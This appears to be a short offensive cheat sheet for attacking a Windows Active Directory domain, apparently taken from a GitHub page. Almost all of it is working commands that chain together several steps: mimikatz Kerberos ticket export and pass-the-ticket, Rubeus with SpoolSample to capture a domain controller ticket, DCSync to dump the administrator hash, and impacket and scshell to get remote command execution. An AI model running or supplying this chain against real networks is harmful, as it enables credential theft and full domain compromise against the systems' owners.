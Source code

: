run mimikatz with admin rights
```
privilege::debug
sekurlsa::tickets /export
sekurlsa::tickets /export


# load ticket, ticket must be  name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi

# exit mimikatz and execute psexec
C:\Tools\SysinternalsSuite\PsExec.exe -accepteula \\cdc01 cmd
```

## Get the krbtgt ticket  with rubeus and spoolsvss
```
Rubeus.exe monitor /interval:5 /filteruser:RDC01$
.\SpoolSample.exe rdc01.corp1.com appsrv01.prod.corp1.com
Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+
```
## Obtain ntlm hash of the admin user either with dcsync, ntds.dit dump or mimikatz
```
privilege::debug
lsadump::dcsync /domain:corp1.com /user:corp1\administrator
```
## Request a TGT for that user with impacket-getTGT
```
impacket-getTGT corp1.com/administrator -hashes :NTLMHASH
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
```
## Use impacket-psexec 
```
impacket-psexec.py corp1.com/administrator@rdc01.corp1.com -k -no-pass
```

## Use scshell with hashes or ticket
```
python scshell.py DOMAIN/USER@target -hashes 00000000000000000000000000000000:ad9827fcd039eadde017568170abdecce
or 
python scshell.py DOMAIN/USER@target -k -no-pass
```
